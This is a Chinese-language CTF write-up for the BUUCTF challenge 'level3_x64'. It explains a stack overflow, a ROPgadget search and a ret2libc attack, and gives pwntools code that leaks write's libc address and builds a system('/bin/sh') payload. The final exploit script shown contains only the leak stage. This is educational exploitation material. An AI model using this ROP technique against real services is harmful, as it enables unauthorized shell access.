 ida打开看看，f5反汇编

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203231811552.png" alt="image-20220323181142495" style="zoom:80%;" />

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955458.png" alt="image-20220323181058973" style="zoom:80%;" />

很明显，read函数存在栈溢出

对于泄露libc版本，之前只记过32位的传参问题，上网找了找64位传参的关系

当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。
当参数为7个以上时， 前 6 个与前面一样， 但后面的依次从 “右向左” 放入栈中，即和32位汇编一样。

对于write函数在上一题最后专门研究了一下，可以直接到上面去看。

利用ROPgadget寻找rdi,rsi

```bash
ROPgadget --binary level3_x64 --only "pop|ret"|grep pop
```

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203231821065.png" alt="image-20220323182102999" style="zoom:80%;" />

泄露libc

```python
payload=junk+p64(pop_rdi)+p64(1)	#rdi寄存器设置write函数第一个参数为'1'
payload+=p64(pop_rsi)+p64(write_got)#将第二个参数传入为write_got，方便打印出来
payload+=p64(8)						#设置字长为8
payload+=p64(write_plt)				#调用write函数
payload+=p64(main)					#回到主函数，方便接下来的操作
```

利用第三方库直接查询

```python
libc=LibcSearcher('write',write_addr)
base=write_addr-libc.dump('write')
system=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')
```

构造payload

```python
payload=junk+p64(pop_rdi)+p64(bin_sh)+p64(system)
```

exp

```python
from pwn import*  
from LibcSearcher import*

context(os='linux',arch='amd64',log_level='debug')
io=remote('node4.buuoj.cn',26738)
io=process('/home/vi0let/文档/pwn/BUUCTF/level3_x64')
elf=ELF('/home/vi0let/文档/pwn/BUUCTF/level3_x64')

junk=b'a'*(0x80+8)
main=elf.sym['main']
write_plt=elf.plt['write']
write_got=elf.got['write']
pop_rdi=0x00000000004006b3
pop_rsi=0x00000000004006b1

payload=junk+p64(pop_rdi)+p64(1)	#rdi寄存器设置write函数第一个参数为'1'
payload+=p64(pop_rsi)+p64(write_got)#将第二个参数传入为write_got，方便打印出来
payload+=p64(8)						#设置字长为8
payload+=p64(write_plt)				#调用write函数
payload+=p64(main)					#回到主函数，方便接下来的操作
```